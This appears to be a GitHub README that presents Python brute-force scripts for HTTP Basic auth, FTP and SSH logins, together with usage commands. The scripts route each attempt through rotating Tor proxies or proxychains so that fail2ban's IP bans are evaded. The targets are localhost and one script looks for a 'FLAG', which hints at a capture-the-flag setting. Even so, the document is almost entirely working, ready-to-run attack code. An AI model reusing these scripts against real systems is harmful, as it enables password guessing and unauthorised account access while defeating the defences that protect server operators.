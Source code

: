 # Fail2ban bypass using tor

### **Fail2Ban** reads log file that contains password failure report and bans the corresponding IP addresses using firewall rules. It updates firewall rules to reject the IP address. That means that if we send every request with a different IP Address that results in bypassing this firewall.

#### For the HTTP Bruteforcer we are using random tor proxies per request using requests-session and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import random
from multiprocessing import Pool
import requests
import base64
import re

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

username = b'username'

to_brute_force = ["{0:03}".format(i) for i in range(500)]

def execute(index):

    payload = base64.b64encode(username + b':' + bytes(index, 'utf-8'))
    session = requests.session()
    creds = str(random.randint(10000,0x7fffffff)) + ":" + "youtorpassword"

    session.proxies = {
        'http': 'socks5h://{}@localhost:9050'.format(creds),
        'https': 'socks5h://{}@localhost:9050'.format(creds)
    }

    req = session.get(HOST, headers={
        'Authorization': 'Basic '+payload.decode('utf-8')
    })

    if req.status_code == 200:
        print(re.search('FLAG = (.*)', req.text).group(0))


with Pool(processes=16) as pool:
    for i in to_brute_force:
        pool.apply_async(execute(str(i)))

    pool.close()
    pool.join()
```

#### For the FTP Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import ftplib
from threading import Thread
import queue
import os

HOST, PORT = 'localhost', 21

q = queue.Queue()
n_threads = 10

USERNAME = 'username'

flag = True
to_brute_force = ['{0:03}'.format(i) for i in range(500)]

def execute():

    global q
    
    while True:
        os.system('service tor reload')
        index = q.get()
        server = ftplib.FTP()
        print('[!] Trying ' +  str(index))
    
        try:
            server.connect(HOST, PORT, timeout=5)
            server.login(USERNAME, str(index))
    
        except ftplib.error_perm:
            pass
    
        else:
            print('[+] Found credentials: ')
            print(f'\tUser: {USERNAME}'+ str(index))
            print(f'\tPassword: {str(index)}{Fore.RESET}')
            
            with q.mutex:
                q.queue.clear()
                q.all_tasks_done.notify_all()
                q.unfinished_tasks = 0

        finally:
            q.task_done()


for i in to_brute_force:
    q.put(i)

for t in range(n_threads):
    thread = Thread(target=execute)
    thread.daemon = True
    thread.start()

q.join()
```

#### For the SSH Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. `StrictHostKeyChecking=no` is used to make our attempts without strict host key checking.

```python
import os

HOST, PORT = 'localhost', 22

USERNAME = 'username'

to_brute_force = ['{0:03}'.format(i) for i in range(500)]

try:
    for index in to_brute_force:
        os.system('service tor reload')
        print('Trying with: ' + index)
        
        execute = 'proxychains sshpass -p ' + str(index) + ' ssh -o StrictHostKeyChecking=no' + f'{USERNAME}@{HOST} -p {PORT}'
        os.system(execute)

except (KeyboardInterrupt, SystemExit):
    exit()
```

# Usage:

### For the HTTP Bruteforcer use:

```bash
$ python http_fail2ban_bypass.py
```

### For the FTP Bruteforcer use:

```bash
$ sudo proxychains python ftp_fail2ban_bypass.py
```

### For the SSH Bruteforcer use:

```bash
$  sudo proxychains ssh_fail2ban_bypass.py
```
